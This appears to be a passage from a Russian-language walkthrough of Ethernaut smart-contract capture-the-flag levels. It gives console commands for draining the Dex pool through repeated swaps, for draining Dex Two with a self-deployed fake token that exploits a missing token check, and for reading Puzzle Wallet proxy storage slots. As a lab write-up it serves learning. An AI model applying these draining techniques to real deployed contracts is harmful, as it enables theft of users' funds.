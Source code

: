 ```
>await contract.swap(t1, t2, 9)
>Number(await contract.balanceOf(t2, player))
19
>await contract.swap(t2, t1, 19)
>Number(await contract.balanceOf(t1, player))
22
>await contract.swap(t1, t2, 22)
>Number(await contract.balanceOf(t2, player))
27
>await contract.swap(t2, t1, 27)
>await contract.swap(t1, t2, 35)
>await contract.swap(t2, t1, 51)
>await contract.swap(t1, t2, 95) - error
>await contract.swap(t1, t2, 5)
>Number(await contract.balanceOf(t1, player))
90
>Number(await contract.balanceOf(t2, player))
36
>await contract.swap(t2, t1, 36)
>Number(await contract.balanceOf(t1, player))
99
...
>Number(await contract.balanceOf(t1, player))
107
>await contract.swap(t1, t2, 3)
>Number(await contract.balanceOf(t2, player))
110
>Number(await contract.balanceOf(t1, player))
104

### 23. Dex Two (**)
Отличается от предыдущего отсутствием проверки в swap на принадлежность к токенам `require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");`
А это значит можно добавить свой токен и слить все через него
SwappableTokenTwo.deploy()
SwappableTokenTwo.approve(contract.address, 10000000000)
SwappableTokenTwo.transfer(contract.address, 100) //и переслать немног токенов в этот контракт

>const t1 = await contract.token1()
>const t2 = await contract.token2()
>const t3 = await SwappableTokenTwo.address
>await contract.approve(contract.address, 10000)
>Number(await contract.balanceOf(t1, player))
10 - как и обещали)
>Number(await contract.balanceOf(t3, contract.address))
100
>await contract.swap(t3, t2, 100)
>await contract.swap(t3, t1, 200)

### 24. Puzzle Wallet (****)
Посмотрю, что в этом контракте в storage
cast storage 0x725595BA16E76ED1F6cC1e1b65A88365cC494824 0 --rpc-url "https://ethereum-sepolia.publicnode.com"
0x000000000000000000000000725595ba16e76ed1f6cc1e1b65a88365cc494824 - 0 address public pendingAdmin
0x000000000000000000000000725595ba16e76ed1f6cc1e1b65a88365cc494824 - 1 address public admin
0x0000000000000000000000000000000000000000000000000000000000000000 - 2-7
contract PuzzleProxy is UpgradeableProxy {
    address public pendingAdmin;    //slot 0
    address public admin;           //slot 1
    ...
}
contract PuzzleWallet {
    address public owner;           //slot 0
```